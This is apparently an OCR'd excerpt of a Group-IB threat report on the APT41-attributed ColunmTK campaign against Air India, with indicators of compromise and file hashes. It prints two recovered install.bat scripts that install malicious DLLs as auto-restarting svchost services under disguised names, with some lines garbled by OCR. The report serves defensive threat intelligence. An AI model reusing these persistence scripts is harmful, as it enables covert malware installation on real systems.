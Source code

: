 set "DLL_NAME=storesyncsvc.dll"
set "SERVICE_NAME=StorSyncSvc"
set "DISPLAY_NAME=Storage Sync Service"
set "DESCRIPTION=The Storage Sync Service is the top-level resource for File Sync. It creates sync relationships with multiple storage accounts via multiple sync groups. If this service is stopped or disabled, applications will be unable to run collectly."
sc stop %SERVICE_NAME%
sc delete %SERVICE_NAME%
mkdir %WORK_DIR%
copy "%
dp0%DLL_NAME%" "%WORK_DIR%" /Y
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v "%SERVICE_NAME%" /t REG_MULTI_SZ /d "%SERVICE_NAME%" /f
sc create "%SERVICE_NAME%" binPath= "%SystemRoot%\system32\svchost.exe -k %SERVICE_NAME%" type= share start= auto error= ignore DisplayName= "%DISPLAY_NAME%"
SC failure "%SERVICE_NAME%" reset= 86400 actions= restart/60000/restart/60000/restart/60000
sc description "%SERVICE_NAME%" "%DESCRIPTION%"
reg add "HKLM\SYSTEM\CurrentControlSet\Services\%SERVICE_NAME%\Parameters" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\%SERVICE_NAME%\Parameters" /v "ServiceDll" /t REG_EXPAND_SZ /d "%WORK_DIR%\%DLL_NAME%" /f
net start "%SERVICE_NAME%"
 The contents of the file "install.bat" from the ColunmTK campaign: 
@echo off
set "WORK_DIR=c:\Windows\System32"
set "DLL_NAME=SecurityHealthSystray.dll"
set "SERVICE_NAME=COMSysConfig"
set "DISPLAY_NAME=COM+ Update Service"
set "DESCRIPTION="
sc stop %SERVICE_NAME%
sc delete %SERVICE_NAME%
mkdir %WORK_DIR%
copy "%
dp0%DLL_NAME%" "%WORK_DIR%" /Y
dp0SecurityHealthSystra.ocx" "%WORK_DIR%\SecurityHealthSystra.ocx" /Y
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v "%SERVICE_NAME%" /t REG_MULTI_SZ /d "%SERVICE_NAME%" /f
sc create "%SERVICE_NAME%" binPath= "%SystemRoot%\system32\svchost.exe -k %SERVICE_NAME%" type= share start= auto error= ignore DisplayName= "%DISPLAY_NAME%"
SC failure "%SERVICE_NAME%" reset= 86400 actions= restart/60000/restart/60000/restart/60000
sc description "%SERVICE_NAME%" "%DESCRIPTION%"
reg add "HKLM\SYSTEM\CurrentControlSet\Services\%SERVICE_NAME%\Parameters" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\%SERVICE_NAME%\Parameters" /v "ServiceDll" /t REG_EXPAND_SZ /d "%WORK_DIR%\%DLL_NAME%" /f
net start "%SERVICE_NAME%"
  Group-IB researchers believe with moderate confidence that the ColunmTK campaign against Air India was carried out by the Chinese nation-state threat actor APT41.     Attribution of the ColunmTK campaign against Air India to APT41.   ColunmTK MITRE ATT&CK and MITRE SHIELD  Below are indicators that were used in this campaign as well as MITRE ATT&CK mapping and a corresponding list of mitigation solutions. Companies should use MITRE ATT&CK to better prepare for attacks and know what techniques are needed to mitigate security risks associated with this threat actor.     Learn more about Group-IB's products and services: Group-IB's Threat Intelligence & Attribution system, Threat Hunting Framework, Red Teaming, and Cyber Education    Indicators of compromise Below are indicators that were used in this campaign as well as MITRE ATT&CK mapping and a corresponding list of mitigation solutions. Companies should use MITRE ATT&CK to better prepare for attacks and know what techniques are needed to mitigate security risks associated with this threat actor.    Network indicators:  185.118.164[.]198;  104.224.169[.]214;  45.61.136[.]199;  185.118.166[.]66;  149.28.134[.]209;  colunm[.]tk.  File name;MD5install.bat;20aebf6e20c46b6bfe44f2828adf3b91
SecurityHealthSystray.dll;b6b06a95cfeeee0efe8bc0cd54eac71d
SecurityHealthSystray.ocx;83249cff833182b3299cbd4aac539c9a
BadPotatoNet4.exe;143278845a3f5276a1dd5860e7488313
COMSysUpdate.dll;559b7150d936fffe728092b160c14d28
install.bat;9337952aa3be0dacfc12898df3180f02
SecurityHealthSystray.ocx;212784cf25f0adfaf9ba46db41c373d5
COMSysUpdate.ocx;d414c7ede5a9d6d30e6d3fe547e27484